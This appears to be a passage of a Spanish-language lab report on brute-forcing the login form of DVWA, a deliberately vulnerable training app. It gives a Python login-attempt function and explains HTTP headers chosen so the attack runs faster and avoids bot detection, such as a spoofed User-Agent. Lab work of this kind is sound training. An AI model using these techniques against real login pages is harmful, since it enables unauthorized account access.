 \documentclass[letter,12pt]{article}
\begin{document}
\textbf{Código principal del método de ataque:}
\begin{verbatim}
def attempt_login(self, username, password):
    data = {
        'username': username,
        'password': password,
        'Login': 'Login'
    }
    
    response = self.session.get(self.login_url, params=data)
    
    if "Welcome to the password protected area" in response.text:
        return True, response.text
    elif "Username and/or password incorrect" in response.text:
        return False, response.text
\end{verbatim}

\subsection{Cabeceras HTTP (python)}

Las cabeceras HTTP más importantes empleadas en el ataque de fuerza bruta son:

\begin{enumerate}
    \item \textbf{User-Agent}: \texttt{Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36...}
    \begin{itemize}
        \item \textbf{Propósito}: Identifica el navegador/cliente que realiza la petición
        \item \textbf{Importancia}: Simula un navegador real para evitar detección automática de bots
    \end{itemize}
    
    \item \textbf{Cookie}: \texttt{PHPSESSID=...; security=low}
    \begin{itemize}
        \item \textbf{Propósito}: Mantiene la sesión y configuración de seguridad en DVWA
        \item \textbf{Importancia}: CRÍTICA - Sin cookies válidas, el ataque no funcionará
    \end{itemize}
    
    \item \textbf{Connection}: \texttt{keep-alive}
    \begin{itemize}
        \item \textbf{Propósito}: Mantiene la conexión TCP abierta para múltiples peticiones
        \item \textbf{Importancia}: Mejora el rendimiento del ataque al reutilizar conexiones
    \end{itemize}
    
    \item \textbf{Accept}: \texttt{text/html,application/xhtml+xml,application/xml;q=0.9...}
    \begin{itemize}
        \item \textbf{Propósito}: Especifica qué tipos de contenido acepta el cliente
        \item \textbf{Importancia}: Hace que las peticiones parezcan más legítimas
    \end{itemize}
\end{enumerate}
\end{document}
